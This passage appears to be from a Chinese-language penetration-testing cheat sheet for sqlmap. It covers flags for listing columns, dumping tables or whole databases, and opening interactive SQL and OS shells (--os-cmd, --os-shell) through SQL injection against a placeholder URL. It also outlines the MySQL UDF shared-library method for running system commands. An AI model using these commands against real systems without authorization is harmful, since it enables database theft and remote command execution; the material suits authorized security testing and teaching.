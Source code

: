 ```shell
# 获取字段名 - 获取指定、部分、全部"数据库"、"表"的所有字段的名称

# 获取指定数据库(不用-D则默认当前数据库)、指定表的全部字段 "字段名" "字段类型"
--columns -D testdb -T users -C name

# ------------

# 获取数据 - 获取 指定"数据库" 的全部数据
--dump -D testdb

# 获取数据 - 获取 指定"表" 的全部数据
--dump -T users

# 获取数据 - 获取 指定"表" 的指定数据
--dump -T users -C last_ip,last_time


# 获取数据 - 获取 几乎全部数据. 排除"系统数据库"
#【请求多 耗时多】
--dump-all --exclude-sysdbs
```

#### 参数 - 交互式sql语句执行

```
--sql-shell
```

* 常用语句
  * [MySQL常用的查询语句](web_vul_SQLi.md#mysql常用的查询语句)
  * [MySQL常用的getshell方法](web_vul_SQLi.md#mysql常用的getshell方法)

#### 参数 - OS命令执行

前提1：数据库支持系统命令执行. 如MySQL/PostgreSQL/Microsoft SQL Server等

前提2：当前用户有权限使用特定的函数. 在sqlmap中查看权限用 `--privilege`


```
# 执行指定系统命令  --os-cmd=whoami
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "MySQL" --os-cmd=whoami 
```

```
# 获得交互式shell  --os-shell
sqlmap -u "http://url/news?id=1"--level=3 --smart --dbms "MySQL" --os-shell
```

* 获取系统shell - 通过数据库 - MySQL [实战-利用mysql数据库的udf函数执行系统命令](#利用mysql数据库的udf函数执行系统命令)
    * 前提条件:数据库进程(DBMS process)对目标文件夹具有文件读取、写入权限.
    * 实现原理:上传一个二进制文件 共享库(shared library)到对应文件夹，它包含两个用户自定义函数(user-defined functions,UDF)用户自定义函数,其中有2个函数的作用是执行系统命令. 然后在数据库使用SQL语句 创建该函数 并调用该函数 即可执行系统命令.
      * `sys_eval()` 执行系统命令 返回标准输出
      * `sys_exec()` 执行系统命令 返回退出码
